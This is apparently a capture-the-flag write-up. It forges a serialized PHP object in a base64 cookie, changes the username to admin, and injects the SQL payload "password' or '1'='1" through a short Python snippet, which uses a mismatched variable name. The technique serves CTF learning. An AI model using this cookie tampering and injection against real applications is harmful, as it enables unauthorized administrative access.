 
Tried to login as ``guest:guest``, it redirect to ``/index.php?file=regular_user``. checkout application cookies, the value of ``user_info`` looks suspicious. it is a url-encoded base64 string.


After decoding, we got a object description
```
O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
```

``O`` => Object
``s`` => string attribute

Number indicates the length of the following value.

If we change ``guest`` to ``admin``, then we can visit as admin. we need SQL injection to bypass the password.

```
pw = "password' or '1'='1"
user_info = 'O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:'+str(len(pw))+':"'+pw+'";}'
cookie = base64.b64encode(s.encode())
```

Replace the value of ``user_info`` with the updated one, try to visit admin page ``/index.php?file=admin``, now we have the flag.
